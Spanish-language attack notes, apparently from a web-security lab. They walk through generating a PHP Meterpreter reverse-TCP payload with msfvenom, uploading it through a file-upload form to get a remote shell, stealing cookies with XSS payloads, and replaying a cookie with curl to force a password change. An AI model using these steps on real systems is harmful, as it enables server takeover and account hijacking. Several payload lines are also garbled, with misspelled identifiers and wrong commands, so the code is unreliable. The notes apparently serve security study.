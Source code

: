# metasploit
abrir un tunel entre el equipo atacante y la maquina objetivo
kali>Explotationstools>frameworksexploids>password

msfvenom -h
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp

ipatacante -> **
ipobjetivo->**

set LHOST atacante 

en terminal nuevo
msfvenom -l payloads | grep php
msfvenom -p php/meterpreter/reverse_tcp --list-options

msfvenom -p php/meterpreter/reverse_tcp LHOST=atacente LPORT=4444 -o  llamada.php
abrir el archivo que se crea y descomentarlo 



subir el archivo en FileUpload
pegar la ruta del archivo, enter

metaexploit -> exploit 

shell
pwd

----
<script>alert(document.cookie)</script>
### CSRF
URL 

XSS reflected
<script>alert(Objetc.fromEntries(cookie.map({name,value} => [name.value])));</script>

<script>Object.fromEntries(document.cookie.split('; ').forEach(c => alert(c)))</script>

--capturar la cookie con el tamper
curl -h

curl --cookie "cookie"  --location "URLdecambiode contraseña" 

curl --cookie "cookie"  --location "URLdecambiode contraseña"  | grep "Password changed" | tree exito.txt